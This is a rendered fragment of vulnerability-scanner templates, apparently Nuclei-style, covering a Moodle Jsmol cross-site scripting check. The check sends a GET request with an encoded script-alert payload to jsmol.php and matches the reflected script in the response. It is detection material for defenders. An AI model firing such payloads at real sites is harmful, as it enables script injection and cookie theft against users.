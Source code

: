 **Type - word**

- words
  1. onmousewheel=\"return bbimg(this)\"

**Type - status**

- status
  1. 200

---

# Moodle Jsmol - Cross-Site Scripting

## Description

- Moodle contains a cross-site scripting vulnerability via the Jsmol plugin and may also be susceptible to local file inclusion or server-side-request forgery. An attacker can execute arbitrary script in the browser of an unsuspecting user and steal cookie-based authentication credentials and launch other attacks.
- severity - medium
- tags - moodle,xss

## Requests

- Method - GET

### URL

- {{BaseURL}}/filter/jmol/js/jsmol/php/jsmol.php?call=saveFile&data=%3Cscript%3Ealert(%27XSS%27)%3C/script%3E&mimetype=text/html

### Matchers

**Type - status**

- status
  1. 200

**Type - word**

- words
  1. \<script>alert('XSS')\</script>
- part - body

**Type - word**

- part - header
- words
  1. text/html

---

# Moodle - Cross-Site Scripting
